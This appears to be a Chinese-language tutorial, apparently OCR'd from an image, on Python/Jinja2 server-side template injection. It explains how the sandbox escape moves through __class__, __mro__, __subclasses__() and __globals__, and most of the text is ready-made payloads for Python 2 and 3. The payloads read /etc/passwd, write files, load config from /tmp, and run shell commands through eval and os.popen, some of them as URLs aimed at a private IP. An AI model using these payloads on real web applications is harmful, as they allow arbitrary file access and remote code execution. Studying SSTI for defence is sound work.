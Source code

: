 
在python的object类中集成了很多的基础函数，我们想要调用的时候也是需要用object去操作的，这是两种创建object的方法

Python中一些常见的特殊方法：

解释

`__class__返回调用的参数类型。 __base__返回基类 __mro__允许我们在当前Python环境下追溯继承树 __subclasses__()返回子类`

现在我们的思路就是从一个内置变量调用__class__.base__等隐藏属性，去找到一个函数，然后调用其__globals[‘builtins’]即可调用eval等执行任意代码。

解释


```python
().__class__.__bases__[0] ''.__class__.__mro__[2] {}.__class__.__bases__[0] [].__class__.__bases__[0]   builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块
```


---

解释

`>>> ''.__class__.__base__.__subclasses__() # 返回子类的列表 [,,,...]  #从中随便选一个类,查看它的__init__ >>> ''.__class__.__base__.__subclasses__()[30].__init__ <slot wrapper '__init__' of 'object' objects> # wrapper是指这些函数并没有被重载，这时他们并不是function，不具有__globals__属性  #再换几个子类，很快就能找到一个重载过__init__的类，比如 >>> ''.__class__.__base__.__subclasses__()[5].__init__  >>> ''.__class__.__base__.__subclasses__()[5].__init__.__globals__['__builtins__']['eval'] #然后用eval执行命令即可`

安全研究员给出的几个常见Payload  
**python2**  
文件读取和写入

解释

`#读文件 {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}   {{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}} #写文件 {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}`

任意执行

每次执行都要先写然后编译执行

```
{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('code')}}  
{{ config.from_pyfile('/tmp/owned.cfg') }}  
```

python3  
因为python3没有file了，所以用的是open

解释


```python
#文件读取 http://192.168.228.36/?name={{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}   #任意执行 http://192.168.228.36/?name={{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}}    #命令执行： {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}  #文件操作 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

